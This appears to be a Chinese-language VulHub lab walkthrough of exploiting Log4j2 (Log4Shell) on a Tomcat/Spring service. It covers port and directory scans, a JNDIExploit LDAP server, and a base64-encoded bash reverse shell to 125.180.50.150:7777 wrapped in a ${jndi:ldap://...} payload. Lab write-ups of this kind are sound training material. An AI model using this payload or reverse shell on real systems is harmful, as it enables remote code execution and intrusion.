








# VulHub-Log4j2

## 信息收集

### 端口扫描

```bash
nmap -sS -sV -O -A -T4 -p- 192.168.10.50
```



结果:

端口22: OpenSSH 7.6p1
端口38080: Apache Tomcat(http使用Spring Java Framework)

因为38080是tomcat加Spring框架的端口,并且访问页面404,所以初步判断为只是作为日志服务运行



### 目录扫描

```bash
dirbsearch -u 'http://192.168.10.50:38080'

```

扫到一个为hello的文件,访问一下



这里回显提示GET方法不支持，切换POST方法尝试访问

成功200访问 
回显OK



搭建kali本地ldap服务

```bash
java -jar JNDIExploit-1.2.SNAPSHOT.jar -i 125.180.50.150

```



构造payload

```bash
/bin/bash >&/dev/tcp/125.180.50.150/7777 0>&1

# base64编码
L2Jpbi9iYXNoID4mIC9kZXYvdGNwLzEyNS4xODAuNTAuMTUwLzc3NzcgMD4mMQ==

# payload
${jndi:ldap://125.180.50.150:1389/TomcatBypass/Command/Base64/L2Jpbi9iYXNoID4mIC9kZXYvdGNwLzEyNS4xODAuNTAuMTUwLzc3NzcgMD4mMQ==}

```



发送成功




发送payload拿到shell




